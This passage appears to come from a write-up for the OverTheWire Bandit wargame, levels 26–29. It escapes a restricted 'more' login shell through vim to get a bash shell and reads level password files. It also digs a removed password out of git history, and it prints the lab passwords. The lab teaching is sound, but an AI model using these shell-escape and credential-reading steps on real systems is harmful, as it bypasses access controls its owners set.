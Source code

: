 ```sh
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i sshkey26 # immediate exit.
# we have a new ascii art, so it's probably figlet.
figlet bandit26 # yep, it's even the default font.

# ssh to 25 and look up the shell:
cat /etc/passwd|grep 26 # bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
file /usr/bin/showtext
cat /usr/bin/showtext # it's more!
cat /home/bandit26/text.txt # permission denied. we don't really need it either.

# but more does not stay open :/
# let's fix that:
figlet bandit26 | wc -l # the ascii art has 6 lines.
stty rows 5 # set terminal height to 5 to force more to scroll.
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i sshkey26 # we got more!

? # see our options.
v # open vim :D
# resize tmux to update stty rows value and give us some room.
:e. # get a list of files in pwd. notice bandit27-do
:e /etc/bandit_pass/bandit26 # 5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z

:set shell # shell=/usr/bin/showtext
:set shell=/bin/bash # let's get a proper shell!
:!whoami # bandit26
:!./bandit27-do cat /etc/bandit_pass/bandit27 # 3ba3118a22e93127a4ed485be72ef5ea
```
* you can also login directly from bandit25:

```sh
./25 # login to bandit25
ssh -i bandit26.sshkey bandit26@localhost
```

## 27-28

```sh
./27 # login to bandit27
mkdir /tmp/ben
git clone ssh://bandit27-git@localhost/home/bandit27-git/repo .
cd /tmp/ben
ls -Alp
cat README # 0ef186ac70e04ea33b4c1853d2526fa2
rm -rf /tmp/ben
```

## 28-29

```sh
mkdir /tmp/ben && cd /tmp/ben
git clone ssh://bandit28-git@localhost/home/bandit28-git/repo .
ls -Alp
cat README
# username: bandit29
# password has been removed, but properly?
git log # 'fix info leak' amazing :D
git checkout c086d11a00c0648d095d04c089786efef5e01264
cat README # bbc96594b4e001778eee9975372716b2
rm -rf /tmp/ben
```
